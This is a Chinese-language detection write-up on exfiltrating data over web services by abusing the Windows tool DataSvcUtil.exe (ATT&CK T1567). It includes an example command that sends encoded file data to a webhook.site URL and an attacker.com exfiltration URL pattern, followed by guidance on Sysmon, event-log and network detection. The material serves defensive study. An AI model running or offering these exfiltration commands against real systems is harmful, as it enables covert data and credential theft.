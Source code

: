 # T1567-Win-通过Web服务进行渗透-DataSvcUtil.exe

## 描述

攻击者利用合法的外部Web服务（如云存储、文件共享平台）通过HTTP/HTTPS协议渗出数据，绕过传统C2通道（T1567）。由于这些服务（如Google Drive、Dropbox）常被组织允许访问，其流量可能被防火墙规则放行，攻击者可利用此掩盖渗出行为。SSL/TLS加密进一步增强了隐蔽性，难以通过明文检测。攻击者可能使用白名单工具（如`DataSvcUtil.exe`）发起渗出请求，伪装成合法操作。

`DataSvcUtil.exe`是Windows .NET Framework自带的命令行工具，位于`C:\Windows\Microsoft.NET\Framework64\<version>\`，用于生成WCF数据服务客户端类。攻击者可滥用其`/uri`参数向外部Web服务发送数据（如编码后的文件），实现渗出。检测重点在于监控`DataSvcUtil.exe`的异常命令行参数、网络连接及文件操作。

## 测试案例

1. **通过HTTP上传文件**  
   使用`DataSvcUtil.exe`将本地文件编码后通过`/uri`参数上传到外部Web服务。  
2. **凭据渗出**  
   将窃取的凭据写入文件并通过`DataSvcUtil.exe`发送到攻击者控制的服务器。  
3. **结合编码技术**  
   使用Base64编码文件内容，附加到URL参数（如`/uri:https://attacker.com/?data=<encoded>`）。

### 示例命令
- **上传文件**（需用户权限）：
  ```cmd
  DataSvcUtil.exe /out:C:\Windows\System32\calc.exe /uri:https://webhook.site/xxxxxxxxx?encodedfile
  ```
- **清理**（无直接文件生成，无需清理）。

**注意**：实际测试需替换`https://webhook.site/xxxxxxxxx`为支持接收数据的有效URL。

## 检测日志

**Windows安全日志**  
- **事件ID 4688**：记录`DataSvcUtil.exe`的进程创建及其命令行参数。  

**Sysmon日志**  
- **事件ID 1**：记录`DataSvcUtil.exe`进程创建，包含命令行细节。  
- **事件ID 3**：记录`DataSvcUtil.exe`发起的网络连接（如HTTPS到外部域名）。  
- **事件ID 11**：记录文件创建/写入（若攻击者生成临时文件）。  

**PowerShell日志**  
- 无直接记录，除非通过PowerShell脚本调用`DataSvcUtil.exe`。

**网络日志**  
- 捕获HTTPS流量，检查异常URL（如`webhook.site`）或非预期域名。  

**配置日志记录**  
- 启用命令行参数记录：`计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。  
- 启用Sysmon配置：监控`DataSvcUtil.exe`的进程、网络和文件操作。  
- 配置防火墙或IDS/IPS记录出站HTTPS请求。

## 测试复现
